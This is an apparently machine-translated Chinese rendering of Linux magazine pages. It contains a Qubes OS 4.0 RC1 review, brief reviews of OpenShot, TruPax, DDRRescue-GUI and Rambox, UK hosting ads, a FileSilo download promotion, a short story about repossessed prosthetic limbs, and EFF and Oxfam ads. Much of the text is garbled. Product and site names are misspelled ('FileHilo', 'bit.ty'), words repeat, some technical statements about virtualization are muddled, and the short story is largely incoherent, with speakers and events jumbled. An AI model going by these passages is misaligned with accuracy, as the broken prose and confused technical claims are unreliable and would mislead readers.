

发行版

## Qubes OS 4.0 RC1

`Edward Snowden` 最喜爱的发行版获得全面更新

在六年的存在期间，`Qubes OS` 已经确立了其可能是最受欢迎的以安全为中心的发行版。原因是该发行版在将攻击操作系统的核心元素隔离在不同的虚拟机内部的方法上是独特的。本质上说，这种分区有助于在发生安全泄露时遏制损失。

开发者们最近发布了 `Qubes OS 4.0` 的第一个版本，该版本已经开发了一年多。此版本中的大多数更改都是幕后进行的，其中许多更改也体现在用户与发行版交互方式的变化上。`Qubes OS` 的早期几年用于向代码添加功能，代码变得越来越复杂和混乱。该版本的一个要点之一是重写了后端，它更具模块化和可扩展性。开发者认为认为的两项增强是改进的防火墙接口，它允许更多规则且不会...

上方，你必须手动将应用标记给 `AppVM`，因为默认只设置了几个。

| 规格 | |
|---|---|
| 内存 | 4GB |
| 存储 | 32GB 磁盘空间 |
| 处理器 | 64位 `Intel` 或 `AMD` 处理器 |

获取方式自： 
`www.qubes.org`


88

# 创建新队列

[首页]

[新标签页：`Mozilla Firefox`]

设置：个人



# Domitoll 创建新队列

| 名称和标签: | `unknown-links` `VM` | |
|---|---|---|
| 使用此模板: | `default` (`fedora-25`) | |
| 网络: | `sys-firewall` | |
| | 提供网络 | |
| | | |

| 基础 | 高级 | 防火墙规则 | 设备 |  |
|---|---|---|---|

设置

| 名称 & 标签: | `personal` (`current`) | |
|---|---|---|
| 模板 | `Fedora-25` (`current`) | |
| 网关: | `sys-firewall` (`current`) | |
| | `10.0.17.0` |

磁盘存储

| 私有存储大小: | |
|---|---|
| 系统存储大小: | 1024MB |

- 不能在虚拟机运行时进行更改



上方 `Qubes OS` 允许你进行隔离。要在另一个虚拟机中复制或打开文件，在管理器中右键点击文件

> 此版本中最大的变化是该项目放弃了半虚拟化并转向了虚拟化

## 优点

提供了流畅的用户体验，界面整洁且布局合理。

## 缺点

安全性增强以更高的硬件要求和陡峭的学习曲线为代价。

`Qubes` 菜单中的所有虚拟机现在位于一个多标签面板中，你可以在那里控制 `Qubes` 的各个方面。这影响了半虚拟化的效果，并有助于为每个自定义 `AppVM` 准备应用程序。`Qubes` 消耗资源比普通发行版多得多。然而，列表并没有显示你的系统是否满足运行支持 `Intel VT-x` 或 `AMD-V` 的 `Qubes` 的最低要求。此外，虽然你可以用 `8GB` 内存完成，但 `Qubes` 仍然是一个非常沉重的系统。

# 总结

在视觉方面，`Qubes OS` 安装的开发者通过使界面更加直观来帮助简化管理。这一方向上最重要的变化是删除了 `Qubes` 应用管理器，它的功能被认为在其他地方是不必要的。例如，系统托盘中有一个 `Qubes` 管理器，允许你监控和管理 `AppVM`。

旧的遗留模式已被现代界面所取代。对新用户有意义的 `Qubes` 小部件和应用也得到了清理。

虽然 `Qubes` 仍然是一个非常沉重的系统，但它并不是为多用户系统设计的。执行 `dom` 的用户控制控制，并且没有虚拟虚拟化 `OpenGL`，因为这将为 `GUI` 架构引入巨大的复杂性，所以不要期望在自己的 `AppVM` 中玩 `Steam` 游戏。

## 评测新鲜的开源软件

## 视频编辑器

### OpenShot 2.4
易于使用的跨平台视频编辑器

在 `Linux` 上编辑视频可能与 `Steam` 出现之前在 `Linux` 上玩游戏的情况相似——但并不流行。

这很奇怪，因为与非-`Steam` 时代不同，你的发行版或其存储库中的开源视频编辑器中已经有了相当多的新功能。最容易获取的之一 `OpenShot` 2.4，这是一个以稳定性为中心的发布版本，导入工作时不会出现任何崩溃标记。该版本还改进了现有功能，并添加了一些新功能。最大的变化之一是改进了编辑器跟踪更改的方式。通过在文件中存储撤销/重做（`undo/redo`）操作，新版本使得时间线更具可用。界面导出功能已经扩展，现在支持 `JPG`、`PNG`、`BMP`、`MP4` 以及许多其他视频导出格式。该版本主要的新增功能是能够快速在视频片段中插入冻帧，而无需使用“冻帧”和“冻帧并缩放”预设。


`OpenShot` 也以 `AppImage` 形式提供，可以在没有发行版的情况下在 `Linux` 上运行。

| 优点 | 缺点 |
| :--- | :--- |
| 在其非常易用且不起眼的界面中包含了许多功能。 | 尽管它很直观，但在正确使用它方面，你必须先掌握它的学习曲线。 |

非常适合于……为每个作品增添专业感。
`www.openshotvideo.com`

## 加密工具

### TruPax 9B
LUUSER FRESH FOSS 你可以使用许多发行版的安装程序来加密整个分区。然而，如果你只是想让几个文件免受窥视，这可能大材小用了。`TruPax` 也可以加密与 `VeraCrypt` 兼容的文件，但既然你可以轻松使用直观的 `VeraCrypt` 应用，为什么要用 `TruPax` 呢？首先，如果你加密整个分区，你需要对它将存放的文件大小有一定的了解。一旦创建，此加密容器就无法调整大小，当你发现它没有足够的空间存放文件时，这会格外痛苦。另一方面，当你选择要用 `TruPax` 加密的文件时，它会创建一个与选择文件大小相同的容器。不过，如果你以后需要，也可以向加密卷添加更多空间。如果你想在一段时间后解密该卷，你就不需要在发行版组的存储中了。所以如果你获取了容器，只需要调用 `/install.sh` 将应用程序锚定到 `/opt/trupax` 并添加到菜单。该程序的图形界面操作直观——选择你想要加密的文件和文件夹，创建一个名称创建容器并点击卷按钮。

通过创建与文件大小正合适的加密隔离区来节省磁盘。

与 `VeraCrypt` 不同，`TruPax` 创建的加密容器不包含隐藏卷。

非常适合于……将多个文件标记在一个加密容器中。
`http://bit.ty/TruPax`

## 系统恢复

### DDRRescue-GUI 1.71
通过 `GUI` 的便利性使用 `ddrescue` 的强大功能


如果你曾经因为硬件故障而丢失过数据，你很可能被要求将故障驱动器的块级拷贝复制到另一个输入设备中。使用 `ddrescue` 工具来恢复`数据`。`ddrescue` 最棒的地方在于，它在遇到错误时不会向输出写入零。因此，每当你在磁盘上运行它时，它都会跳过间隔而不会抹掉已恢复的数据。唯一的缺点是 `ddrescue` 是一个命令行工具，你可能更倾向于使用图形界面来代替它。`DDRRescue-GUI` 如其所示，在图形界面中提供了这个强大的工具。这显著降低了门槛，让许多用户都能使用 `ddrescue`。`DDRRescue-GUI` 用 `Python` 编写，占用资源极低，使其在旧电脑上也可用。该工具的界面类似于官方的 `KDisk` 工具，工作流非常简单。只需启动工具并选择需要镜像的磁盘。为了更有效的恢复过程，你还应该指定日志文件的位置以跟踪恢复过程，这在你想要恢复镜像时也很有用。你可以在项目的 `Launchpad` 页面找到预编译的二进制文件和源码。

## 优点
图形用户界面让毫无经验的用户也能使用 `ddrescue`。

## 缺点
`GUI` 未能暴露 `CLI` 工具的所有功能。

## 非常适合于……
快速地让块级拷贝变得简单。

`http://bit.ly/ddrescu-gui`

## 统一消息

### Rambox 0.5.12
将所有通信整合在一个屋檐下


几乎所有带有默认消息应用的桌面商店都允许你登录多个在线服务。这是一个巨大的帮助，因为这些应用只跟踪少数热门服务。另一方面，`Ramb` 有巨大的使命。在它的最新版本中，你可以视觉化地登录许多消息和电子邮件服务！该程序使用非常直观。每个添加的服务都在自己的标签页中，你可以在那里浏览消息历史、写入联系人，或支持其他通信功能。

# 顶级托管


# SSD 网页托管


`www.bargainhost.co.uk`
`0843 289 2681`

`CWCS` 托管托管是英国领先的托管服务专家。他们提供全面的托管产品、服务和支持。高技能的员工不仅是托管专家，还致力于提供卓越的客户体验，并对他们所的工作充满热情。

自2001年以来，`Bargain` 一直致力于提供价格最低的托管服务。他们成功实现了这一目标，并建立了庞大的客户数据库，其中包括许多满意的客户。他们现在因提供卓越的托管服务而屡获殊荣。

- 托管机托管
- `VPS`
1 100% 网络可用性


- 共享托管
- 云托管

# 价值托管

# 价值 Linux 托管


# elasticos

`elasticos.co.uk`
`0271 83256`

`www.220media.com`
`www.220Media.com`

新用户可以预装安装 `WordPress`，或获得免费管理。我们的即时 `WordPress` 服务第一年免费。

我们以知识丰富且卓越的服务而闻名；我们帮助英国各地的企业、开发者和创作者。

`ElasticoHost` 为网站提供简单、灵活且高效益的云服务，具有高性能、可用性和可扩展性。我们还通过工程师团队通过电话、电子邮件和工单系统提供卓越的支持。

`patchman-hosting.co.uk`
`01642 237`

`Linux` 托管是家庭用户、商业用户和寻求高性价比且强大托管的设计者的绝佳解决方案。无论您是在构建一个小型作品网站还是运行一个数据库驱动的电子商务网站，都有适合您的 `Linux` 托管解决方案。

- 任何操作系统 上的云服务器
- `Linux` 操作系统容器
- 世界级的 24/7 支持

# 小企业托管

# 快速、可靠的托管


`www.hostapa.co.uk`
`0850 051 7126`

`www.bymarket.co.uk`
`01904 890 810`

`HostGapa` 是屡获殊荣的托管服务和绿色托管的领导者。它是少数全功能托管软件包之一，通过 24/7 客户支持、学习资源以及卓越的可靠性提供了巨大的帮助。

`ByMarket` 成立于2002年，是“英国云与网页托管专家”。他们的方法包括内部专业知识、透明定价、支持人员提供的免费服务以及公道价格的高质量托管硬件。


# 预算托管：

`www.hetzner.de/us` | `+49 (0)931 5050`

`Hetzner` 是一家专业的托管网站提供者和经验丰富的互联网运营商。自1997年以来，该公司一直提供私有的、廉价且高性能的托管产品，以及网站高效运行所需的基础设施。稳定技术、吸引力的定价和灵活的服务使 `Hetzner` 在国内和国际不断提升其地位。

- 独立托管和共享托管
- 互联网域名
- `SSL` 证书

- 网站生成器
- 预算价格
- 无限数据库

`www.linux.co.uk`

# 免费礼物

# 获取您的免费资源

从您的 `FileHilo`账户下载最好的发行版、必要的 `FOSS` 和所有教程文件


# 它是什么？

每当您看到这个符号时，就有内容等待在 `FileHilo` 上被解锁。

# 为什么要注册？

- 安全安全的在线访问，随时随地
- 为每个读者的免费访问，打印和数字
- 当您想要时只下载您想要的文件
- 所有的礼物，在一个地方


# 1. 解锁您的内容

前往 `filesilo.co/linux` 并按照屏幕上的指令创建我们的 `FileHilo` 系统账户。当您的问题或数字版本到达时，登录您的账户并根据页面上的简单问题解锁额外项目。简单！


# 2. 享受资源

您可以使用任何流行的浏览器在任何电脑、平板电脑或手机上访问 `FileHilo`。但是，我们建议您使用控制台，因为您可能无法下载到其他设备。如果在访问 `FileHilo` 内容时遇到任何问题，请查看在线常见问题解答或向 `filesilohelp@future.com` 发送电子邮件。


在您的平板电脑上阅读，在电脑上下载


# Parrot Security 3.8

# Eric Thonny

# 渗透测试

# 订阅并立即访问我们的整个资源库 – 今天就订阅！

# 这个月...

# 发行版

在 `FileHilo` 中将找到最新版本的 `Manjaro Linux Xfce 17.0.5`、`Parrot Security 3.8` 和 `Tiny Core Linux 8.1`。

# 软件

我们打包了很多教程代码，但已将它们压缩到了编辑器中 – `Enc`、`PyCharm社区版`、`PyDev` 和 `Thonny` – 我们在小组中。

# 教程代码

您将找到 `Python/Minecraft` 需要的所有资源、`Java` 游戏检测器以及用于渗透挑战的 `OVA` 文件！




# 短故事

关注我们 `Facebook: facebook.com/LinuxUser` `Twitter: @linuxusag`

# 短篇故事

# 肢体贷款

当他们按住他并强行移除他的肢体时，`Christopher` 的脖子青青了。他曾反抗，但无是无用的；现在他被遗弃在路边的一辆旧车里，在欠款之前变得无家可归且孤独。

泪水顺着脸流下，他再无法出现在他们面前。他站在墙边，希望自己能坐起来。

怎么会变成这样？一年前，他从一家公司获得了一笔廉价的贷款，用假肢替换了他的手脚以获得高薪。一只流浪狗嘴里叼着人类头骨在附近看着。

“好孩子，他没有背叛他的恐惧。”试图踢掉柔软的面具，并感到一阵抽动。他低吼道。

“走开，”就在他面前。“你好”

当他向下看时，他看到这些有足够力量装载重货的生物卡车。

“滚蛋，”他说。

“我们可以帮助你，”她蹲下，掉了一个廉价的假手。“老实说，发生了什么？”

那是水沟里的派对，面前只剩下小的小球。

“我付不起款项，所以他们没收了我的车、房子和我拥有的所有。哦，他们还标记了腿。”

其中一个女人摸着并站在他面前。

“跟得上吗？你会帮吗？”

两个男人带着里面的 `Christopher` 离开了。他握住了她的手。然后我们其他人工作，你，吗？”

“`Kenneth`”

“你想做什么？”

“不。必须付钱的。我不能承担你的费用，”她和我们并肩走时问道，“我们是慈善机构，绝对不能照顾你。现在面对台阶。”

“是吗？如果我不相信你。”

当他们把他抬进货车后后，他看到了地板上的手臂和腿。

“它们是我的，”他说。

“`Shane`，”他说，“你是独特的，没收的它们没有商业价值。它们有……”


电子边界基金会（`EFF`）是数字世界中捍卫公民自由的领先非营利组织。`EFF`成立于1990年，通过影响性诉讼、政策分析、基层行动主义和技术开发，维护用户隐私、言论自由和创新。我们致力于确保随着技术使用的不断增加，权利和自由能够得到增强和保护。

## EFF.ORG

## 电子边界基金会 (ELECTRONIC FRONTIER FOUNDATION)

在电子前疆保护权利并促进自由

## 在黑胶片的世界中沉浸

### 在
乐施会（`OXFAM`）在线商店中 Find自我

`oxfam.org.uk/shop`


乐施会 (`OXFAM`)
